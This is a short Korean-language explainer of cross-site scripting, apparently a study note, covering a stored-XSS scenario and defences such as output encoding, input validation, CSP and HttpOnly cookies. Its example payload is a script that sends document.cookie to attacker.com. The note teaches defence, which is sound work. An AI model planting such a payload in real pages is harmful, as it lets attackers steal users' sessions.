 # XSS란
공격자가 악성 스크립트를 웹 페이지에 삽입하여, 자바스크립트를 실행시키는 공격 방식입니다. 
1. 게시판에 글 작성 기능이 존재
2. 공격자가 이런 글을 작성하여 올림
    ```html
    <script>
      fetch("https://attacker.com/steal?cookie=" + document.cookie);
    </script>
    ```
3. 다른 사용자가 글을 열면, 브라우저가 저 스크립트를 실행
4. 그 사용자의 세션 쿠키가 공격자 서버로 전송되어, 세션을 탈취

이런 방식으로 공격자는 쿠키/세션 탈취, 키보드 입력 가로채기, 파싱 페이지로 강제 이동 등이 가능해집니다. 
이를 방어하기 위해서는 다음 방법을 사용할 수 있습니다.
### 1. 출력 시 인코딩
* HTML에 출력될 때는 HTML 이스케이프 (`&lt;`, `&gt;`)
* JS에 출력될 때는 JS 이스케이프
* HTML, JS, CSS, URL에 따라 다르게 인코딩하여, context에 따라 인코딩이 되도록 합니다. 
* 예: `<script>` -> `&lt;script&gt;`
### 2. 입력 검증
특수문자(<, >, ', " 등)을 제외한 허용된 값만 통과하도록 개발합니다. 
### 3. 컨텐츠 보안 정책 (CSP, Content-Security-Policy)
* `Content-Security-Policy` 헤더로 외부 스크립트와 inline script를 차단합니다.
* 예: `Content-Security-Policy: default-src 'self'` - 같은 도메인에서 온 스크립트만 실행
### 4. HttpOnly 쿠키
* JS에서 쿠키 접근이 불가하도록 하여, 쿠키 탈취를 방지합니다.
* 예: `Set-Cookie: JSESSIONID=abc; HttpOnly; Secure`
